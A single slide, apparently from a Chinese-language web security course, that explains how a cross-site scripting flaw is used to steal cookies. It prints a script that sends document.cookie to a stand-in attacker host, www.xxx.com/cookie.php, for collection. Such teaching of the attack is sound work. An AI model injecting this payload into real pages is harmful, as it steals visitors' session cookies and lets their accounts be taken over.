

# Cookie利用步骤
注入脚本
<script>
document.location=‘http://www.xxx.com/cookie.php?cookie=‘+document.cookie;
</script>
前面我们只是利用<script>alert('xss')</script>其实现一个简单的弹窗并没有进一步加以利用
在www.xxx.com上准备好一个cookie.php

document.location将页面内容定位到指定位置，可以实现页面跳转
15
2022/6/11